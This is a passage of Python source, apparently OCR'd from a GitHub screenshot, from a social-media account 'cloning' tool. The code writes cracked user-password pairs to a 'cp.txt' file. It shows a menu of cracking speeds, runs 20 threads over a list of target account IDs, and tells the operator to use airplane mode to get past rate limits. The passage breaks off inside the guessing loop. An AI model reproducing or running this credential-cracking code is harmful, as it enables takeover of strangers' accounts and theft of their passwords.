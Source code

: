 				wrt = '%s - %s' % (user,pw)

				ok.append(wrt)

				open('cp.txt','a').write('%s\n' % wrt)

				break

			else:

				continue

		loop += 1

	def __pler__(self):

		os.system("clear")

		print(banner)

		print ("\033[1;37m [1] \033[1;36mMETHOD FAST ")

		print ("\033[1;37m [2] \033[1;36mMETHOD NORMEL ")

		print ("\033[1;37m [3] \033[1;36mMETHOD MEDIUM ")

		print(50*"\033[1;97m_")

		yan = input('\033[1;37m[+] \033[1;36mCHOOSE OPTION \033[1;31m: \033[1;32m')

		if yan == '':

			print('\Choose Error ')

			exit()

		elif yan in ('1', '01'):

			os.system("clear")

			print(banner)

			time.sleep(1)

			print('\033[1;37m[+]\033[1;33m File CLONING CP/OK IDS MIX ')

			print('\033[1;37m[+]\033[1;36m TOTAL IDS \033[1;91m: \033[1;32m%s ' % len(self.id))

			print('\033[1;37m[+]\033[1;36m PROCESS HAS BEEN STARTED')

			print(50*"\033[1;97m_")

			print('      \033[1;97m\033[1;41m [ IF  NO RESULT USE AIRPLANE MODE ] \033[0m\033[1;93m')

			print(50*"\033[1;97m_")

			with ThreadPoolExecutor(max_workers=20) as (_ngentot_gratis_):

				for yntkts in self.id:

					try:

						uid, name = yntkts.split('|')

						xz = name.split(' ')
